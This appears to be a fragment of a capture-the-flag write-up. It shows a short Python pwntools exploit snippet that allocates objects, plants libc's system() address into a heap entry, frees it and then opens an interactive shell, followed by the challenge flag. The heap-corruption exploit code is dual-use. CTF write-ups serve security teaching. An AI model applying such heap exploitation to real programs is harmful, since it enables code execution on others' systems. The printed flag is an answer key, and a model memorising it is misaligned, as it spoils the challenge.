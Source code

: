 ```python=


create_person("A", 0x60, "AAAA")
create_person("A", 0x60, "AAAA")


create_person(p64(libc.sym["system"]), 0x60, p64(libc.sym["system"]))



destroy(1)




p.interactive()
```


Flag: `inctf{m3h_th4t_w4s_a_trivial_bug_7734736f615f472}`
